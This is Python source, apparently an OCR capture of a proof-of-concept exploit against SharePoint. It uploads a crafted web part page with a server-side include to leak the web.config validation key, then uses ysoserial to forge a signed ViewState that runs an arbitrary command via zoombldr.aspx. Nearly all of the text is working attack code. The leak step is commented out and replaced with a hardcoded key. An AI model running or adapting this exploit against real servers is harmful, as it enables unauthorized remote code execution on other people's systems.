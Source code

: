 def put_page(target, domain, user, password):
    payload = """<WebPartPages:DataFormWebPart runat="server">
<ParameterBindings>
  <ParameterBinding  />
</ParameterBindings>
  <xsl>
    <xsl:stylesheet xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
      <xsl:param  />
      <xsl:template match="/">
        <xsl:value-of select="$ssi" disable-output-escaping="yes" />
      </xsl:template>
    </xsl:stylesheet>
  </xsl>
</WebPartPages:DataFormWebPart>"""
    r = requests.put("http://%s/poc.aspx" % target, data=payload, auth=HttpNtlmAuth('%s\\%s' % (domain, user), password))
    assert (r.status_code == 200 or r.status_code == 201), "(-) page creation failed, user doesn't have site ownership rights!"

def get_vkey(target, domain, user, password):
    h = { "360Vulcan": "<form runat=\"server\" /><!--#include virtual=\"/web.config\"-->" }
    r = requests.get("http://%s/poc.aspx" % target, auth=HttpNtlmAuth('%s\\%s' % (domain, user), password), headers=h)
    match = re.search("machineKey validationKey=\"(.{64})", r.text)
    assert match, "(-) unable to leak the validation key, exploit failed!"
    return match.group(1)

def trigger_rce(target, domain, path, user, password, cmd, key):
    out = subprocess.Popen([
        'yss/ysoserial.exe', 
        '-p', 'ViewState',
        '-g', 'TypeConfuseDelegate',
        '-c', '%s' % cmd,
        '--apppath=%s' % path,
        '--path=%s_layouts/15/zoombldr.aspx' % path,
        '--islegacy',
        '--validationalg=HMACSHA256',
        '--validationkey=%s' % key
    ], stdout=subprocess.PIPE)
    rce = { "__VIEWSTATE" : out.communicate()[0].decode() }
    requests.post("http://%s/_layouts/15/zoombldr.aspx" % target, data=rce, auth=HttpNtlmAuth('%s\\%s' % (domain, user), password))

def main():
    if len(sys.argv) != 4:
        print("(+) usage: %s <SPSite> <user:pass> <cmd>" % sys.argv[0])
        print("(+) eg: %s win-3t816hj84n4 harryh@pwn.me:user123### mspaint" % sys.argv[0])
        print("(+) eg: %s win-3t816hj84n4/sites/test harryh@pwn.me:user123### notepad" % sys.argv[0])
        sys.exit(-1)
    target = sys.argv[1]
    user = sys.argv[2].split(":")[0].split("@")[0]
    password = sys.argv[2].split(":")[1]
    domain = sys.argv[2].split(":")[0].split("@")[1]
    cmd = sys.argv[3]
    path = urlparse("http://%s" % target).path or "/"
    path = path + "/" if not path.endswith("/") else path
    ##put_page(target, domain, user, password)
    key = "A2BA2AD5D54775F3F5C669988F8DD2AAF50B218385E9858F3763672F558324CB"
    print("(+) leaked validation key: %s" % key)
    print("(+) triggering rce, running 'cmd /c %s'" % cmd)
    trigger_rce(target, domain, path, user, password, cmd, key)
    print("(+) done! rce achieved")
